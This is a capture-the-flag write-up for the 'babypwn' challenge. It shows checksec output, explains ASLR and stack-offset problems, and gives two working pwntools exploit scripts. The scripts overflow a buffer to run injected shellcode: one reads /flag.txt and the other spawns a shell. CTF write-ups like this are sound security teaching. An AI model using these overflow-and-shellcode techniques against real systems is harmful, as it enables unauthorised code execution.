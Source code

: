 # babypwn

Points: 100

```bash
➜ checksec babypwn
[*] '/home/squishy/Programs/ctf/2020/cyber_security_rumble/babypwn/baby-pwn-for-download/docker/babypwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

The only protection we have is that PIE enabled. Note that NX is disabled.
Also, we can see from the `babypwn_svc` that ASLR is disabled.

I started by trying to exploit it on the local executable:

To turn off ASLR:
```
➜ setarch `uname -m` -R $SHELL
```

This spawns a shell where any subsequent commands will have ASLR disabled as
well. Running a program in gdb disables ASLR by default.

By overflowing `user_md5`, I was eventually able to execute my shellcode payload
on the stack. I tested this and found that it worked by stepping through the
program in GDB.

However, when I actually ran the program (`./babypwn < payload`), I found that
it didn't work. This was because for some reason, the stack offset was
different from when I ran it in GDB. I was able to confirm this by inspecting
core files caused by the crash.

I then corrected the stack offset by using the address from the core file. This
allowed it to work when running the local executable. However, it failed when
running on my local containerized challenge as well as the remote challenge.

It seemed like:
- With ASLR disabled, the stack addresses will not be deliberately randomized
  between each run. This allowed my exploit to work locally with ASLR disabled.
- With PIE enabled, the stack address will change depending on the context.
  - When running in GDB, I got different stack addresses
  - When running locally, I got different stack addresses
  - When running from the containerized challenge, I got different stack addresses
  - But they are all consistent within themselves (i.e. they won't change each
    time you run it)

Since we don't know the stack addresses on the containerized challenge, we can
only guess. To increase the chances of a successful guess, we can precede our
shellcode with a generous amount of no-ops. Then we just try different stack
addresses until it works.

Script (also in `main_cat_clean.py`):
```python
import pwn

pwn.context.arch = 'amd64'

sh = pwn.remote('chal.cybersecurityrumble.de', 1990)


def inject_shellcode():
    # Target: 120 bytes
    # 8 bytes: (fake input)
    # 1 byte: (null to fool strlen)
    # 111 bytes: (padding)
    # ---
    # 8 bytes: address somewhere in no-ops to reach shellcode
    # ---
    # 2048 bytes: (no ops) <- Goal is to jump somewhere here
    # ? bytes: (shellcode)

    ret_addr_padding = 120

    payload = b'12345678' + b'\0';

    padding = ret_addr_padding - len(payload)
    payload += pwn.cyclic(padding)

    # Keep guessing values until this works.
    # You can use `➜ sudo dmesg | tail -10` to see info on where the program
    # failed.
    sh_code_addr = 0x7fffffffef90 # lucky guess

    print('sh_code_addr: ', hex(sh_code_addr))
    payload += pwn.p64(sh_code_addr)

    payload += pwn.asm(pwn.shellcraft.nop()) * 2048

    # Since we are using `gets`, `stdin` mustbe re-opened if we want to use it
    # Instead let's just `cat` the file
    sh_code = pwn.shellcraft.amd64.linux.cat('/flag.txt')
    sh_code += pwn.shellcraft.exit(0)

    sh_code = pwn.asm(sh_code)
    sh_code = pwn.encoder.line(sh_code)

    payload += sh_code
    print('Payload len: ', len(payload))

    return payload


payload = inject_shellcode()

with open('payload', 'wb') as f:
    f.write(payload)

sh.send(payload)
sh.interactive() # Hit enter to show the output of `cat /flag.txt`
```

---

Better solution from the author:

```python
from pwn import *

r = remote('localhost', 1990)
context(arch='amd64')

r.recvline()
pl = asm('sub rsp, 0x100;' + shellcraft.sh()).rjust(0x78, asm('nop'))
r.sendline(pl.hex() + p64(0x7fffffffe720).hex())
r.interactive()
```

He also said:

> better solution would be to make use of the provided docker (compile debug
> functionality of stack location into the binary and build container) or jump
> directly into the output function, as someone else noted.

